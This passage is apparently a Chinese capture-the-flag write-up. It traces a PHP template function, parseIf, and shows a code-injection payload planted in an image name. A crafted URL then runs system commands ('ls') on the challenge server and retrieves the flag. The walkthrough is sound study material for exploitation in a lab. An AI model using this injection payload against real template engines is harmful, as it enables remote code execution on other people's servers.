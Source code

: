 定位到图片位置

```
public function actionShow()`{`
        $template = '&lt;h1&gt;图片内容为：&lt;/h1&gt;图片ID：`{`cms:id`}`&lt;br&gt;图片名称:`{`cms:name`}`&lt;br&gt;图片地址：`{`cms:pic`}`';
        if (isset($_GET['id'])) `{`
            $model = new Content();
            $res = $model-&gt;find()-&gt;where(['id' =&gt;intval($_GET['id'])])-&gt;one();
            $template = str_replace("`{`cms:id`}`",$res-&gt;id,$template);
            $template = str_replace("`{`cms:name`}`",$res-&gt;name,$template);
            $template = str_replace("`{`cms:pic`}`",$res-&gt;url,$template);
            $template = $this-&gt;parseIf($template);
            echo $template;
        `}`else`{`
            return json_encode(['error'=&gt;'id error!']);
        `}`
    `}`
```

跟进函数`parseIf`````

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01cf2f5afb5041e9a2.png)

参考文章

```
https://www.anquanke.com/post/id/153402
```

我们添加图片为

```
skysec
`{`if:1)$GLOBALS['_G'.'ET'][sky]($GLOBALS['_G'.'ET'][cool]);die();//`}``{`end if`}`
```

然后访问

```
http://101.71.29.5:10013/web/index.php?r=content%2Fshow&amp;id=1919&amp;sky=system&amp;cool=ls
```

即可列目录

[![](https://p3.ssl.qhimg.com/t0128c29b3ce64df646.png)](https://p3.ssl.qhimg.com/t0128c29b3ce64df646.png)

拿flag即可

[![](https://p5.ssl.qhimg.com/t01b851c0be577421c1.png)](https://p5.ssl.qhimg.com/t01b851c0be577421c1.png)

```
flag`{`65bb1dd503d2a682b47fde40571598f4`}`
```

